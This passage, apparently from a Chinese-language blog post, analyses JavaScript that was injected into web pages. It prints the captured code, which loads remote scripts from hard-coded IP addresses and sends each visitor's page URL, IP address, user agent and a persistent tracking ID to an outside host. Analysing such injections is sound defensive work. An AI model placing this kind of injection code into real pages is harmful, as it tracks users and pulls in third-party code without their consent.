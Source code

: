     	var js = document.createElement('script');
    	jsurl = "http://211.149.216.27:8080/fn_put/fishingnet2.jsp?siteID="+siteid;
    	js.setAttribute('src',jsurl);
    	document.body.appendChild(js);
    }
    else
    {
    	var js = document.createElement('script');
    	jsurl = "http://211.149.216.27/fn_put/fishingnet2.jsp?siteID="+siteid;
    	js.setAttribute('src',jsurl);
    	document.body.appendChild(js);
    
    	var js1 = document.createElement('script');
    	var mylog = "http://122.114.61.38/fishingnet/js2log?jsurl="+jsurl;
    	js1.setAttribute('src',mylog);
    	document.body.appendChild(js1);
    }
    }(window,document);
    {% endhighlight %}

第二条GET请求直接返回一个js函数：

    function isPC() {
        
        var flag = false;
        
        var userAgentInfo = 'curl/7.26.0';
        var Agents = ["Windows NT", "Macintosh"];    
        for (var v = 0; v < Agents.length; v++) {
            if (userAgentInfo.indexOf(Agents[v]) > 0) {
                flag = true;
                break;
            }
        }
        
        return flag;
    }
    var putting1 = function(){
        var accessId = '';
        if(window.localStorage){  
            if(typeof(localStorage.accessId_fn) == "undefined")
            {
               localStorage.accessId_fn = "accessId_fn"+new Date().getTime();
            }
            accessId = localStorage.accessId_fn;
        }
        var url = window.location.href;
        var accessIp = '116.236.107.222';
        var accessUa = 'curl/7.26.0';   
        if(top.location == location)
        {       
            var ajax_fn = 'http://211.149.216.27/fn_put/put2.jsp?postfix=&siteID=2&isPC='+isPC()+'&accessUa='+accessUa+'&accessIp='+accessIp+'&accessId='+accessId+'&url='+escape(url);
            var script = document.createElement("script");
            script.src =  ajax_fn;
            document.body.appendChild(script);
        }
    }
    if (typeof(isload_fn) == "undefined" || isload_fn==false) {
            var isload_fn = true;
            putting1();
    }


[githubio]: http://pannzh.github.io
[Browser-Cache-Poisoning]: http://www.eecs.berkeley.edu/~yahel/papers/Browser-Cache-Poisoning.Song.Spring10.attack-project.pdf
